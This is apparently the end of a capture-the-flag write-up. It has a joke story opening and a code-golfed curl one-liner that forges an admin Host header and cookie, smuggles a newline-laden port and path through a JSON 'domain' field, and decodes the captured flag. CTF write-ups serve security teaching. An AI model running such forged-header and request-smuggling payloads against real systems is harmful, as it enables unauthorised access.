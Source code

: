 Our hero, equal parts frustrated and elated, opened a new text document and began to type:

```
# The CTF from \u000aHELL

## Chapter 1

IT WAS A DARK AND STORMY^w^w^w^w^w^w
```

## Bonus

As a bonus, here's a lightly code-golfed solution for the whole thing:

```
▶ r(){ curl -H'Host:admin.acme.org' -H'Cookie:admin=yes' -H'Content-Type:application/json' 104.236.20.43$@;};r /read.php?id=$(($(r / -d'{"domain":"0:1337/flag\n212..com"}'|sed 's/[^0-9]//g')-1))|jq -r '.[]'|base64 -d
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6
```

It feels a bit like cheating to include jq in there as it's not installed on most systems, but whatcha gonna do?

**Originally posted at https://gist.githubusercontent.com/tomnomnom/9cf20cc5c87ccbf38254862ac9826430/raw/6c671a80142261b03cf7b50090ed65c556bc578f/ctf-from-hell.md**
